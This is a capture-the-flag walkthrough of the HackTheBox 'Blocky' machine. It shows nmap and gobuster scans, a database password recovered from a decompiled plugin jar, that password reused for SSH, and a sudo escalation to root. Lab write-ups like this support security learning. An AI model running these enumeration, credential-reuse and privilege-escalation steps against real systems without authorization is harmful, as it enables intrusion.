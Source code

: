 # BLOCKY

## ENUMERATION

Nmap scan result 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ nmap 10.10.10.37
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-06 08:55 EDT
Nmap scan report for 10.10.10.37
Host is up (0.24s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos

Nmap done: 1 IP address (1 host up) scanned in 18.71 seconds

┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ nmap 10.10.10.37 -p 21,22,80,8192 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-06 08:56 EDT
Nmap scan report for 10.10.10.37
Host is up (0.22s latency).

PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
```

Gobuster scan result 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.37 -t 100 -q
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.10.37/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/server-status        (Status: 403) [Size: 299]                                     
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]      
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]   
```

Visiting the ```/phpmyadmin``` directory we find a login page 

Next I open the ```/plugins``` directory to find two jar files 

## LOGIN

After downloading the jar file I decompile the files using the command ```jar xf filename``` 
Searching through the files we got after decompilation I found this

```
┌──(kali㉿kali)-[~/…/hackthebox/blocky/com/myfirstplugin]
└─$ cat BlockyCore.class

����4-com/myfirstplugin/BlockyCorejava/lang/ObjectsqlHostLjava/lang/String;sqlUsersqlPass<init>()VCode


        localhost
                       root
                               8YsqfCTnvxAUeduzjNSXe22
                                                       LineNumberTableLocalVariableTableonServerStartrstplugin/BlockyCore;
             onServerStop
                         onPlayerJoi"TODO get usernam$!Welcome to the BlockyCraft!!!!!!!
&
 '(
```

It looks like the username and password so I tried to login with ```username:root and password:8YsqfCTnvxAUeduzjNSXe22``` and it worked

## SSH

I tried ssh using the same creds as above but it didn't work

While checking through all the files with the keyword user in their name I found another user 

![](https://github.com/Leo-2807/Writeups/blob/main/images/blocky.png)

So I tried ssh with ```username:notch and password:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/``` but it didn't work aswell

Then I tried ```username:notch and password:8YsqfCTnvxAUeduzjNSXe22``` and it worked

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ ssh notch@10.10.10.37                                                         255 ⨯
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
```

## USER --> ROOT

Using the command ```sudo -l``` to check sudo previleges of our user

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 

Sorry, try again.
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# whoami
root
root@Blocky:~# cd /root
root@Blocky:/root# ls
root.txt
root@Blocky:/root# cat root.txt
```
